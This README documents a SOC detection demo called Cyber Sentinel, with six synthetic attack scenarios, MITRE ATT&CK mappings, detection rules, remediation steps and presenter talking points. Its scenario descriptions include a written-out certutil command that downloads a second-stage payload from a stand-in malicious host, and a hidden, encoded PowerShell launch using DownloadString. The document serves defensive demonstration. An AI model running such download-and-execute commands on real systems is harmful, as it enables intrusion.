

# Cyber Sentinel — Safe & Repeatable Live SOC Demonstration Guide

## 🎯 Purpose & Scope

This directory contains the **safe, deterministic, and 100% reproducible demonstration engine** for Cyber Sentinel. It is specifically designed for:

* **Executive Presentations & Technical Demonstrations**
* **Technical Job Interviews & Systems Architecture Walkthroughs**
* **Academic Capstone Evaluations & Peer Code Reviews**

> [!IMPORTANT]
> **Zero Real Malware Required**: All scenarios utilize structured, synthetic telemetry payloads. No malicious binaries, exploit code, or harmful scripts are executed on the host system. Every event is explicitly labeled with `is_simulation: true`.

---

## ⚡ Quick Start Demonstration Commands

From the project root directory:

```bash
# 1. Run full interactive demonstration (Guided pacing)
node demo/run_demo.js

# 2. Run all 6 scenarios in automated succession
node demo/run_demo.js --all

# 3. Run a specific attack scenario (1 to 6)
node demo/run_demo.js --scenario 1   # Brute-Force Authentication Attack
node demo/run_demo.js --scenario 2   # Obfuscated PowerShell Execution
node demo/run_demo.js --scenario 3   # C2 Network Socket Beaconing
node demo/run_demo.js --scenario 4   # Registry Run Key Persistence
node demo/run_demo.js --scenario 5   # Living-off-the-Land Ingress Tool Transfer (Certutil)
node demo/run_demo.js --scenario 6   # Rapid File Modification / Ransomware Burst
```

---

## 🔄 The 14-Stage Demonstration Workflow

Every scenario walks through the entire end-to-end security operations pipeline:



---

## 🧪 Detailed Scenario Descriptions & MITRE Mappings

### 1. Brute-Force Authentication Attack Campaign
* **Scenario File**: [`demo/scenarios/01_brute_force.json`](file:///c:/Users/Ayush/OneDrive/Desktop/Cyber-Sentinel--main/demo/scenarios/01_brute_force.json)
* **MITRE ATT&CK**: **T1110.001** (*Credential Access: Password Guessing*)
* **Adversary Behavior**: A distributed external IP (`198.51.100.44`) attempts 5 rapid SSH/Web login failures targeting accounts `admin`, `root`, `service_account`, `analyst`, and `it_support`.
* **Detection Rule**: `RULE_BRUTE_FORCE_005` (Threshold: $\ge 5$ failures within a 2-minute sliding window).
* **Remediation**: `BLOCK_IP` at perimeter firewall & account lockout enforcement.

---

### 2. Obfuscated & Encoded PowerShell Execution
* **Scenario File**: [`demo/scenarios/02_suspicious_powershell.json`](file:///c:/Users/Ayush/OneDrive/Desktop/Cyber-Sentinel--main/demo/scenarios/02_suspicious_powershell.json)
* **MITRE ATT&CK**: **T1059.001** (*Execution: PowerShell*), **T1027** (*Defense Evasion: Obfuscated Files*)
* **Adversary Behavior**: Word process (`WINWORD.EXE`) spawns `powershell.exe` with `-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Enc <Base64>`.
* **Detection Rule**: `RULE_OBFUSCATED_POWERSHELL_002` (Decodes Base64 payload containing `DownloadString`).
* **Remediation**: `TERMINATE_SUSPICIOUS_PROCESS` (PID: 5824) and `ISOLATE_ENDPOINT`.

---

### 3. Command and Control (C2) Socket Beaconing
* **Scenario File**: [`demo/scenarios/03_suspicious_network.json`](file:///c:/Users/Ayush/OneDrive/Desktop/Cyber-Sentinel--main/demo/scenarios/03_suspicious_network.json)
* **MITRE ATT&CK**: **T1071.001** (*Command and Control: Application Layer Protocol*)
* **Adversary Behavior**: Process `rundll32.exe` opens an outbound TCP socket to `185.220.101.5:443`, an IP flagged in the ThreatFox threat intelligence catalog as an active CobaltStrike C2 beacon.
* **Detection Rule**: `RULE_C2_PROCESS_CORRELATION_010` (Correlates suspicious process spawn with active IOC match).
* **Remediation**: `BLOCK_IP` and `ISOLATE_ENDPOINT`.

---

### 4. Unauthorized Registry Run Key Persistence
* **Scenario File**: [`demo/scenarios/04_persistence_behavior.json`](file:///c:/Users/Ayush/OneDrive/Desktop/Cyber-Sentinel--main/demo/scenarios/04_persistence_behavior.json)
* **MITRE ATT&CK**: **T1547.001** (*Persistence: Boot or Logon Autostart Execution: Registry Run Keys*)
* **Adversary Behavior**: Process `reg.exe` modifies `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` to auto-execute dropped payload `updater.vbs` on boot.
* **Detection Rule**: `RULE_REGISTRY_PERSISTENCE_011` (Detects startup registry key additions).
* **Remediation**: `QUARANTINE_FILE` (`C:\Users\victim_user\AppData\Local\Temp\updater.vbs`).

---

### 5. Ingress Tool Transfer via LOLBIN (Certutil)
* **Scenario File**: [`demo/scenarios/05_malicious_download.json`](file:///c:/Users/Ayush/OneDrive/Desktop/Cyber-Sentinel--main/demo/scenarios/05_malicious_download.json)
* **MITRE ATT&CK**: **T1105** (*Command and Control: Ingress Tool Transfer*)
* **Adversary Behavior**: Adversary invokes `certutil.exe -urlcache -split -f http://evil-downloads.ru/stage2.bin` to download secondary stage payloads.
* **Detection Rule**: `RULE_INGRESS_TRANSFER_012` (Detects living-off-the-land download parameters).
* **Remediation**: `BLOCK_IP` (`91.240.118.172`) and `QUARANTINE_FILE`.

---

### 6. Rapid File Modification & Encryption Burst
* **Scenario File**: [`demo/scenarios/06_suspicious_file_activity.json`](file:///c:/Users/Ayush/OneDrive/Desktop/Cyber-Sentinel--main/demo/scenarios/06_suspicious_file_activity.json)
* **MITRE ATT&CK**: **T1486** (*Impact: Data Encrypted for Impact*)
* **Adversary Behavior**: Process `updater.vbs` rapidly renames 5 files within seconds to `.locked` extensions and drops `READ_ME_RECOVER_FILES.txt`.
* **Detection Rule**: `RULE_RANSOMWARE_BURST_007` (Threshold rule triggering on high-frequency file modifications).
* **Remediation**: `ISOLATE_ENDPOINT` and `TERMINATE_SUSPICIOUS_PROCESS` (PID: 9412).

---

## 🎙️ Presenter Notes & Interview Talking Points

| Demonstration Stage | Key Technical Talking Point |
| :--- | :--- |
| **Stage 1–2: Ingestion & Auth** | *"Endpoint telemetry is protected against spoofing and tampering using HMAC-SHA256 signatures, timestamp drift rejection ($\pm 300\text{s}$), and replay nonce caches."* |
| **Stage 3: Normalization** | *"Our event normalizer handles heterogeneous log formats (Syslog, Windows EID, Agent JSON) while actively defending against V8 prototype pollution."* |
| **Stage 4–5: SIEM & MITRE** | *"The detection engine evaluates stateful sliding-window threshold and sequence rules in real time, mapping alerts directly to the MITRE ATT&CK Enterprise Matrix."* |
| **Stage 6: Incident Ledger** | *"Every security incident maintains an immutable SHA-256 cryptographic hash chain across its timeline events. Any database row tampering is mathematically detectable."* |
| **Stage 9–10: AI & Threat Intel** | *"Our AI copilot operates within a strict advisory boundary with prompt injection filters. The model has zero autonomous execution authority; all proposals require human approval."* |
| **Stage 11–12: Containment** | *"Response actions are restricted to a strict allowlist (e.g. `ISOLATE_ENDPOINT`, `TERMINATE_SUSPICIOUS_PROCESS`) with shell-injection parameter sanitization."* |
| **Stage 13–14: Resolution** | *"Upon closing the incident across the NIST lifecycle, we execute a cryptographic verification affirming that 100% of the audit chain remains intact."* |
